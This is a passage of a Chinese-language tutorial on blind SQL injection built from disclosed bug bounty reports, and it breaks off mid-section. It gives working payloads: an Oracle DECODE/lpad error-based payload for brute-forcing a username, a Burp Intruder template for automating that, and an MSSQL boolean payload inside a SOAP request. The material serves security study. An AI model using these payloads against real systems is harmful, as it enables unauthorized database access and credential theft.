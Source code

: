    - **Payload 2 - 逐字符爆破用户名**：

     ```
     HiddenFieldSortOrder=seqno-DECODE(lpad(user,5),'QSWEB',1,1/0)
     ```

     - **攻击逻辑**：
       - `lpad(user,5)`：将 `user` 左填充至5字符（假设原始用户名为5字符）。
       - 若填充后等于 `'QSWEB'`，执行 `1`（正常返回）。
       - 否则，触发 `1/0`（页面异常）。
     - **观察结果**：
       - 输入 `'QSWEB'` 时页面正常，确认用户名为 `QSWEB`。
       - 输入错误值（如 `'QSWE1'`）时页面异常。

3. **自动化攻击**

   - 使用 Burp Intruder 暴力枚举用户名：

     - **模板配置**：

       ```
       HiddenFieldSortOrder=seqno-DECODE(lpad(user,5),'§a§',1,1/0)
       ```

       - 将 `§a§` 设为爆破点，遍历5字符组合。

     - **判断依据**：

       - 响应长度或状态码差异（正常用户名为200 OK，错误触发500）。

### 4. SOAP请求|MSSQL|布尔盲注

[U.S. Dept Of Defense | Report #2072306 - Blind Sql Injection in https://████████/ | HackerOne](https://hackerone.com/reports/2072306)

1. **基础请求分析**

   - **原始 SOAP 请求**：

     ```
     <GetAllFacilitiesForNewUserRegistration>
       <searchValue>*</searchValue>  <!-- 正常通配符查询 -->
     </GetAllFacilitiesForNewUserRegistration>
     ```

     运行 HTML

   - **正常响应**：返回所有匹配的设施列表（HTTP 200）。

2. **布尔盲注验证**

   - **Payload 构造**：

     ```
     <searchValue>1' AND substring(system_user,1,16)='public\dsfwsuser' AND '%'='</searchValue>
     ```

     运行 HTML

   - **攻击逻辑**：
